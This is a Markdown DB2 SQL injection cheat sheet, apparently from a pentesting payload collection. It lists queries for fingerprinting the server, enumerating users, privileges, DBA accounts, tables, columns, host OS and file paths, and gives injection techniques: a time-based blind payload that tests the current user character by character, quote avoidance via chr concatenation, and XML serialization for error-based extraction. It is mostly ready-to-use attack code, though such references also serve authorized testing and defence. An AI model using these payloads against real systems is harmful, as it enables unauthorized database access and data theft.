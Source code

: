 # DB2 Injection

> 

## Summary

* [DB2 Cheatsheet](#db2-cheatsheet)
* [References](#references) 

## DB2 Cheatsheet

### Version

\`\`\`sql
select versionnumber, version_timestamp from sysibm.sysversions;
select service_level from table(sysproc.env_get_inst_info()) as instanceinfo
select getvariable('sysibm.version') from sysibm.sysdummy1 -- (v8+)
select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo
select service_level,bld_level from sysibmadm.env_inst_info
\`\`\`

### Comments	

\`\`\`sql
select blah from foo -- comment like this (double dash)
\`\`\`

### Current User

\`\`\`sql
select user from sysibm.sysdummy1
select session_user from sysibm.sysdummy1
select system_user from sysibm.sysdummy1
\`\`\`

### List Users

DB2 uses OS accounts

\`\`\`sql
select distinct(authid) from sysibmadm.privileges -- priv required
select grantee from syscat.dbauth -- incomplete results
select distinct(definer) from syscat.schemata -- more accurate
select distinct(grantee) from sysibm.systabauth -- same as previous
\`\`\`

### List Privileges

\`\`\`sql
select * from syscat.tabauth -- shows priv on tables
select * from syscat.tabauth where grantee = current user -- shows privs for current user
select * from syscat.dbauth where grantee = current user;;
select * from SYSIBM.SYSUSERAUTH — List db2 system privilegies
\`\`\`

### List DBA Accounts	

\`\`\`sql
select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'
select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = ‘Y’ or SYSADMAUTH = ‘G’
\`\`\`

### Current Database	

\`\`\`sql
select current server from sysibm.sysdummy1
\`\`\`

### List Databases

\`\`\`sql
select distinct(table_catalog) from sysibm.tables
SELECT schemaname FROM syscat.schemata;
\`\`\`

### List Columns

\`\`\`sql
select name, tbname, coltype from sysibm.syscolumns -- also valid syscat and sysstat
\`\`\`

### List Tables

\`\`\`sql
select table_name from sysibm.tables
select name from sysibm.systables
\`\`\`

### Find Tables From Column Name	

\`\`\`sql
select tbname from sysibm.syscolumns where name='username'
\`\`\`

### Select Nth Row

\`\`\`sql
select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only
\`\`\`

### Select Nth Char	

\`\`\`sql
select substr('abc',2,1) FROM sysibm.sysdummy1 -- returns b
\`\`\`

### Bitwise AND/OR/NOT/XOR

\`\`\`sql
select bitand(1,0) from sysibm.sysdummy1 -- returns 0. Also available bitandnot, bitor, bitxor, bitnot
\`\`\`

### ASCII Value

\`\`\`sql
Char	select chr(65) from sysibm.sysdummy1 -- returns 'A'
\`\`\`

### Char -> ASCII Value	

\`\`\`sql
select ascii('A') from sysibm.sysdummy1 -- returns 65
\`\`\`

### Casting

\`\`\`sql
select cast('123' as integer) from sysibm.sysdummy1
select cast(1 as char) from sysibm.sysdummy1
\`\`\`

### String Concat

\`\`\`sql
select 'a' concat 'b' concat 'c' from sysibm.sysdummy1 -- returns 'abc'
select 'a' || 'b' from sysibm.sysdummy1 -- returns 'ab'
\`\`\`


### IF Statement
Seems only allowed in stored procedures. Use case logic instead.

### Case Statement

\`\`\`sql
select CASE WHEN (1=1) THEN 'AAAAAAAAAA' ELSE 'BBBBBBBBBB' END from sysibm.sysdummy1
\`\`\`


### Avoiding Quotes

\`\`\`sql
SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1 -- returns “ADRI”. Works without select too
\`\`\`

### Time Delay

Heavy queries, for example: If user starts with ascii 68 ('D'), the heavy query will be executed, delaying the response. 
However, if user doesn't start with ascii 68, the heavy query won't execute and thus the response will be faster.
\`\`\`sql
' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68 
\`\`\`

### Serialize to XML (for error based)

\`\`\`sql
select xmlagg(xmlrow(table_schema)) from sysibm.tables -- returns all in one xml-formatted string
select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables) -- Same but without repeated elements
select xml2clob(xmelement(name t, table_schema)) from sysibm.tables -- returns all in one xml-formatted string (v8). May need CAST(xml2clob(… AS varchar(500)) to display the result.
\`\`\`

### Command Execution and Local File Access

Seems it's only allowed from procedures or UDFs.

### Hostname/IP and OS INFO

\`\`\`sql
select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info -- requires priv
\`\`\`

### Location of DB Files

\`\`\`sql
select * from sysibmadm.reg_variables where reg_var_name='DB2PATH' -- requires priv
\`\`\`

### System Config

\`\`\`sql
select dbpartitionnum, name, value from sysibmadm.dbcfg where name like 'auto_%' -- Requires priv. Retrieve the automatic maintenance settings in the database configuration that are stored in memory for all database partitions.
select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg -- Requires priv. Retrieve all the database configuration parameters values stored on disk for all database partitions.
\`\`\`

### Default System Database

* SYSIBM
* SYSCAT
* SYSSTAT
* SYSPUBLIC
* SYSIBMADM
* SYSTOOLs


## References

* [DB2 SQL injection cheat sheet - Adrián - 20/05/2012](https://securityetalii.es/2012/05/20/db2-sql-injection-cheat-sheet/)
* [DB2 SQL Injection Cheat Sheet - pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet)

